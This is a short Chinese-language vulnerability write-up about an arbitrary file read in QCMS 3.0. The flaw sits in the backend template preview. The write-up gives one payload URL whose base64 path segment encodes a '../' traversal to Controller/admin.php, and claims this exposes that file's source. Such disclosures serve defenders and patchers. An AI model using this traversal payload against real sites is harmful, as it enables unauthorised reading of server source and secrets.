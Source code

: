# QCMS 3.0 任意文件读取

> 原文：[https://www.zhihuifly.com/t/topic/3100](https://www.zhihuifly.com/t/topic/3100)

# QCMS 3.0 任意文件读取

## 一、漏洞简介

## 二、漏洞影响

QCMS 3.0

## 三、复现过程

用seay扫了一下后发现的漏洞

漏洞在后台模板代码预览处，构造payload例如

```
http://www.0-sec.org/backend/template/tempview/Li4vLi4vLi4vQ29udHJvbGxlci9hZG1pbi5waHA=.html 
```

即可读取Controller文件下admin.php文件源码

![image](img/2f8e731b0bd9350885237438ff3553db.png)

跟源码对比下，确实是读到了

![image](img/14391e8bf4681783318a3265bd9773e2.png)

## 参考链接

> https://xz.aliyun.com/t/7269
